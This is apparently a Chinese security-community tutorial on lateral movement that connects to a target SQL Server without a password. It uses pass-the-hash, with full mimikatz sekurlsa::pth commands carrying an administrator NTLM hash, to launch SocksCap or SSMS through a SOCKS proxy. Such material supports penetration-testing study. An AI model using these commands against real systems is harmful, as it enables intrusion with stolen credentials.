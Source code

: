 横向渗透 | 无密码连接SQL Server的姿势
zksmile sechub安全
sechub安全 

微信号 secevery0x01

功能介绍 隶属于SecHub网络安全社区，致力于研究渗透测试、红蓝对抗、应急响应、实战案例、钓鱼社工、和漏洞分析，定期分享实战案例、技术教程、安全工具等前沿网络安全资源。

__发表于

收录于合集 #内网渗透 10个

** 点击蓝字 关注我们**



免责声明

本文发布的工具和脚本，仅用作测试和学习研究，禁止用于商业用途，不能保证其合法性，准确性，完整性和有效性，请根据情况自行判断。

如果任何单位或个人认为该项目的脚本可能涉嫌侵犯其权利，则应及时通知并提供身份证明，所有权证明，我们将在收到认证文件后删除相关内容。

文中所涉及的技术、思路及工具等相关知识仅供安全为目的的学习使用，任何人不得将其应用于非法用途及盈利等目的，间接使用文章中的任何工具、思路及技术，我方对于由此引起的法律后果概不负责。

一、前言
原理：mssql支持Windows身份验证登录（微软工具ssms支持），很多win机器上都是用administrator用户默认安装的，也就是说只要拿到目标administrator用户的hash，就可以利用本地hash注入，通过socks代理直连目标mssql

二、SocksCap
操作流程：用hash注入启动sockscap，把ssms拖到sockscap中启动，连接目标mssql。

分析：为什么要注入启动sockscap，这样在sockscap中启用ssms会自动继承sockscap进程的权限。通过进程分析发现ssms的父进程是sockscap。

1.打开mimikatz，hash注入sockscap
privilege::debug  
sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\SocksCap64\SocksCap64_RunAsAdmin.exe"  


2.在sockscap中运行ssms


3.输入目标服务器名称，连接即可




4.通过进程分析，发现SSMS的父进程是sockscap
wmic process where Name="SSMS.exe" get ParentProcessId  


三、proxifier
操作流程：打开proxifier。用hash注入启动ssms可连接目标mssql。

分析：sockscap和proxifier的使用方式不同。所以我们只要注入ssms即可。

1.启动proxifier
2.打开mimikatz，hash注入ssms
privilege::debug  
sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\ssms\Common7\IDE\Ssms.exe"  


3.连接




欢迎关注SecHub网络安全社区，SecHub网络安全社区目前邀请式注册，邀请码获取见公众号菜单【邀请码】

#

**企业简介 **

赛克艾威 - 专注政企安全服务

**
**

   北京赛克艾威科技有限公司（简称：赛克艾威），成立于2016年9月，具有中国网络安全审查技术与认证中心安全风险评估服务三级资质CCRC，信息安全保障人员资质CISAW（安全评估专家级）。
安全评估|渗透测试|漏洞扫描|安全巡检

代码审计|钓鱼演练|应急响应|安全运维

重大时刻安保|企业安全培训



联系方式

电话｜010-86460828

官网｜https://sechub.com.cn



关注我们



公众号： sechub安全

哔哩号： SecHub官方账号

预览时标签不可点

微信扫一扫
关注该公众号

知道了

微信扫一扫
使用小程序

取消 允许
